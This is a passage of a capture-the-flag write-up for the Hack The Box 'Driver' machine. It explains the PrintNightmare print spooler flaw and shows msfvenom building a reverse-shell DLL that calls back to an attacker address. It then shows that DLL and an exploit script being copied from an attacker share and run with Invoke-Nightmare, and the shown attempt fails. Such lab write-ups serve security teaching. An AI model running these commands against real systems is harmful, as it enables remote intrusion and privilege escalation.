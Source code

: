 We utilized the `Get-Process` cmdlet to list the running processes.

We noticed the presence of `spoolsv` in the list, indicating a potential vulnerability to the infamous `PrintNightmare` exploit.

`PrintNightmare` is a critical vulnerability that allows an attacker to execute code remotely and gain `SYSTEM` level privileges on Windows machines running the print spooler service.

This vulnerability stems from an authorization bypass flaw in the Print Spooler service (`spoolsv.exe`) on Windows systems. It enables authenticated remote users to install print drivers using the RPC call `RpcAddPrinterDriver` and specify a driver file located on a remote location. By exploiting this flaw, a malicious user can inject malicious DLLs during the installation of a print driver, thereby gaining `SYSTEM` level privileges on the target system.

```
┌──(kali㉿kali)-[~/Documents/ctf/htb/driver]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.17 LPORT=1337 -f dll -o reverse.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: reverse.dll
```

We generated a malicious DLL file to provide a reverse shell on the attacker's port `1337`.

Subsequently, we cloned the [CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675) repository and transferred the `CVE-2021-1675.ps1` and DLL file to the victim's box.

```
*Evil-WinRM* PS C:\Users\tony\Documents\tools> copy \\10.10.16.17\tools\CVE-2021-1675-PrintNightmare\CVE-2021-1675.ps1
*Evil-WinRM* PS C:\Users\tony\Documents\tools> copy \\10.10.16.17\tools\CVE-2021-1675-PrintNightmare\reverse.dll
```

Next, we imported the `cve-2021-1675.ps1` module and executed the `Invoke-nightmare` cmdlet, providing the path to the malicious DLL that we created.

```
*Evil-WinRM* PS C:\Users\tony\Documents\tools> powershell -ep bypass "Import-Module .\cve-2021-1675.ps1; Invoke-Nightmare -DLL C:\Users\tony\Documents\tools\reverse.dll"
[+] using user-supplied payload at C:\Users\tony\Documents\tools\reverse.dll
[!] ignoring NewUser and NewPassword arguments
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
powershell.exe : Invoke-Nightmare : [!] AddPrinterDriverEx failed
    + CategoryInfo          : NotSpecified: (Invoke-Nightmar...DriverEx failed:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
At line:1 char:36
+ ... 1-1675.ps1; Invoke-Nightmare -DLL C:\Users\tony\Documents\tools\rever ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorException
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorException,Invoke-Nightmare
```
